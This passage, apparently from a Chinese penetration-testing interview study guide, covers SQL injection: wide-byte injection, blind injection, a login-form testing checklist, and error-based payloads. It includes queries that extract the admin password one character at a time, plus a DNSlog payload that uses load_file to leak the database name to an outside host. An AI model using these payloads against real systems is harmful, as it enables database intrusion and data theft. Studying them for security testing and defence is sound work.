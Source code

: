 ●二次注入

●宽字节注入

有些waf会在我们的提交数据前会被加入\，\的编码为%5c,我们在后面加上%df后变为了%df%5c,变成一个繁体汉字運，变成了一个有多个字节的字符。因为用了gbk编码，使这个为一个两字节，绕过了单引号闭合,逃逸了转义

●盲注和延时注入的共同点？
都是一个字符一个字符的判断

#### 3.盲注原理

将数据库中查询的数据结果进行截断为单个字符，然后同构造逻辑语句。通过判断页面显示是 否异常或页面是否演示来判断数据库中查询的结果 

#### 4.一个登录框怎么测试

1. 验证用户名和密码的输入限制：在输入用户名和密码时，需要验证输入的长度、字符类型等是否符合要求。可以尝试输入过长或过短的字符串、特殊字符等来测试应用程序的输入限制。
2. 测试身份认证功能：尝试使用正确的用户名和密码进行登录，并确认登录成功后能够访问受保护的资源。然后尝试使用无效的凭据进行登录，确保会收到相应的错误提示信息。
3. 测试防止暴力破解的措施：如果应用程序有防止暴力破解的措施，例如锁定账户或添加验证码等，需要测试这些措施是否有效。
4. 测试跨站点脚本（XSS）漏洞：在输入框中注入 JavaScript 代码，尝试看是否能执行该代码，如果能执行，则意味着应用程序存在 XSS 漏洞。
5. 测试 SQL 注入漏洞：在输入框中注入 SQL 代码，尝试看是否能影响后台数据库，如果能影响，则意味着应用程序存在 SQL 注入漏洞。
6. 测试弱口令：尝试使用一些常见的弱口令进行登录，例如“123456”、“password”、“admin”等，以检测应用程序是否容易受到攻击。
7. 测试会话管理：测试应用程序在登录后是否正确维护会话，例如在登录后关闭浏览器并重新打开应用程序，是否需要重新进行登录等。

#### 5.报错注入的函数有哪些？

```
extractvalue(1, concat(0x5c,(select user())))
updatexml(0x3a,concat(1,(select user())),1)
exp((SELECT * from(select user())a))``ST_LatFromGeoHash((select * from(select * from(select user())a)b))
GTID_SUBSET(version(), 1)
```

**SUBSTRING() 函数：**该函数用于从字符串中获取子串。通过构造包含错误的语句，攻击者可以利用该函数来确定字符串值的长度和内容，例如：

```
SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1),1,1);
```

**LENGTH() 函数：**该函数返回字符串的长度。攻击者可以使用该函数来确定查询结果的长度，并进一步推断数据的内容，例如：

```
SELECT LENGTH((SELECT username from users WHERE id=1));
```

**ASCII() 函数：**该函数返回字符的 ASCII 值。攻击者可以结合其他函数，例如 SUBSTRING() 和 LENGTH()，来识别字符串值的每个字符，例如：

```
SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='admin'),1,1));
```



#### 6.Sql 注入无回显的情况下，利用 DNSlog，mysql 下利用什么构造代码，mssql 下又如何构造？

（1）没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。
（2）此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。
（3）Mysql 中利用 load_file() 构造payload ' and if((select load_file(concat('\\',(select database()),'.xxx.ceye.io\abc'))),1,0)#
（4）Mssql 下利用 master..xp_dirtree 构造payload
